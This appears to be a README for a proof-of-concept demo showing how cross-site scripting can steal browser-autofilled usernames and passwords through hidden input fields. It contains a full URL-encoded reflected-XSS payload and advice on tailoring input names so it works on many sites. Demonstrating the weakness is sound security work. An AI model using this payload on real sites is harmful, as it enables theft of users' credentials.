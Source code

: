 # xss-autofil

To see it in action, 'log in' on the `index.html` page. When your browser asks to save your password, allow it.

The `logged-in.html` page has a mock XSS vulnerability and loads a malicious script, `xss.js`.

This script adds a username and password field to the page, which your browser will kindly autofill.

But we can't access the values in these fields without some sort of user interaction, 
so we listen for a click event on window, at which point the fields are filled and we can get the values from the inputs.

## Reflected XSS
Since the script is quite short, it will fit in a URL for reflected XSS attacks, e.g. `q=%3Cscript%3Evar%20u%3Ddocument.createElement(%22input%22)%3Bu.name%3D%22username%22%2Cu.hidden%3D!0%2Cdocument.body.appendChild(u)%3Bvar%20p%3Ddocument.createElement(%22input%22)%3Bp.name%3D%22password%22%2Cp.type%3D%22password%22%2Cp.hidden%3D!0%2Cdocument.body.appendChild(p)%2Cwindow.addEventListener(%22click%22%2C()%3D%3E%7Bconsole.log(%60%20username%3A%20%24%7Bu.value%7D%0A%20password%3A%20%24%7Bp.value%7D%60)%7D)%3B%3C%2Fscript%3E`

This script could be targeted on a per-page basis, to get the username and password input names right, or it could just contain 
many variations of common username and password input names so the browser will autofill at least some of them.
